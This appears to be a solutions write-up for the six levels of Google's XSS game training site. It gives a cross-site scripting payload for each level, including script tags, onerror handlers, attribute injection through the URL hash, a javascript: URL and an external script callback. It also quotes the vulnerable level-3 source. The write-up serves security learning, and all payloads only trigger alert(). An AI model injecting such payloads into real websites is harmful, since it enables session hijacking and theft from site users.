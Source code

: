 # solutions

# Level 1

```
<script>alert(1)</script>
```

# Level 2

```
<img src='#' onerror=alert(1)></img> 
```

# Level 3

Source:
```
function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
 
        window.location.hash = num;
 
        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }
 
        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      }
 
      window.onload = function() { 
        chooseTab(unescape(self.location.hash.substr(1)) || "1");
      }
 
      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(unescape(self.location.hash.substr(1)));
        }
      }, false);
    </script>
```
Everything after # in the https://xss-game.appspot.com/level3/frame endpoint is passed into the chooseTab function.
```
1' onerror='alert();//
```

The img tag is given an onerror attribute when choseTab is called.

# Level 4

Timer runs the alert to evaluate how long the timer should be.
```
3'**alert());//
```

# Level 5

Set next to
```
javascript:alert()
```
so that the is inserted into the HTML element.

# Level 6

```
//www.google.com/jsapi?callback=alert
```
after the # calls the code with the gadget.